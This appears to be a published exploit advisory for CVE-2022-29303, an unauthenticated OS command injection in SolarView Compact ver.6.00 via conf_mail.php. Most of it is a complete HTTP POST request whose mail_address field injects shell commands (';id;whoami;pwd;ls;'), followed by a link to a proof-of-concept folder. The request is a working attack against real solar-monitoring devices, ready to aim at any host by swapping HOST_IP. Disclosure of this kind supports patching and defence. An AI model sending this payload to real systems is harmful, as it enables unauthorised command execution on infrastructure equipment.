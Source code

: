 #Exploit Title: SolarView Compact ver.6.00 OS command injection vulnerability affects conf_mail.php <br>

#Date: 2022-05-15<br>
#Exploit Author: Ahmed Alroky<br>
#Author Company : AIactive<br>
#Version: ver.6.00<br>
#Vendor home page : https://www.contec.com/<br>
#Authentication Required: No<br>
#CVE : CVE-2022-29303<br>
<br>
#Tested on: Windows<br>
<br>
<br>
#Exploit<br>
#HTTP Request :<br>
<br>
POST /conf_mail.php HTTP/1.1<br>
Host: HOST_IP<br>
Content-Length: 77<br>
Cache-Control: max-age=0<br>
Upgrade-Insecure-Requests: 1<br>
Origin: http://HOST_IP<br>
Content-Type: application/x-www-form-urlencoded<br>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9<br>
Referer: http://HOST_IP/conf_mail.php<br>
Accept-Encoding: gzip, deflate<br>
Accept-Language: en-US,en;q=0.9<br>
Connection: close<br>
<br>
mail_address=%3Bid%3Bwhoami%3Bpwd%3Bls%3B&button=%83%81%81%5B%83%8B%91%97%90M<br>
<br>
<br>
#Poc<br>
https://drive.google.com/drive/u/1/folders/1tGr-WExbpfvhRg31XCoaZOFLWyt3r60g<br>
